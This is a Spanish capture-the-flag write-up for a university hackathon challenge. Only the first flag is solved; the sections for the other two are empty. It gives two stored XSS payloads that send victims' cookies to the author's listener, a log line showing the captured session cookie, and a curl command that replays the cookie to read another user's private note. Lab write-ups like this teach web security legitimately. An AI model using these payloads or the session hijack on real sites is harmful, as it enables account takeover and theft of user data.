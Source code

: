 # Hackaton UdG - Reto 3

## Index

- [Flag 1](#flag-1)

- [Flag 2](#flag-2)

- [Flag 3](#flag-3)

### Flag 1 

Creamos un usuario, levantamos un servidor en python con `python -m http.server 6969` dentro de los upload, en el apartado de texto plano alguno de los siguientes **XSS**


```html
<!-- esta primera peude buggear la web, reinciadno la VM se arreglar -->
<img src=x onerror="document.location='http://10.0.2.15:6969/cookie?data='+document.cookie;">
<!-- segunda opción -->
<img src=x onerror="fetch('http://10.0.2.15:6969/cookie?data='+document.cookie)">
```

en nuestro servidor de **Python** vemos esta línea

```shell
10.0.2.12 - - [17/Mar/2025 23:01:59] "GET /cookie?data=NOTESAPP=29260242|asmith||author HTTP/1.1" 404 -

```
y con la cookie ya podemos lanzar un `curl` como la usuaria *Alice Smith* y ver que tiene en su blog

```shell
                                                                            
curl -b "NOTESAPP=29260242|asmith||author" http://10.0.2.12/notesapp/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<!-- Copyright 2017 Google Inc. -->
<html>
<head>
<title>Notes: Home</title>
<style>
...
...
  <tr>
    <td></td>
    <td>
      Private&nbsp;note&nbsp;
    </td>
    <td>
      <a class='button' id='show' onclick='_showHide("show", "hide")' href='#'>Show &#9658;</a>
      <span id='hide' style='display: none;'>
      <a class='button' onclick='_showHide("show", "hide")' href='#'>Hide &#9668;</a> &nbsp;
      <span id='private_note'>HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}</span></span>
    </td>
  </tr>
  <tr><td colspan='3'><hr></td></tr>

  <tr><td colspan='3'><b>Most recent notes:</b></td></tr>

...

</html>
```

**Flag 1:** `HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}`


### Flag 2 


### Flag 3


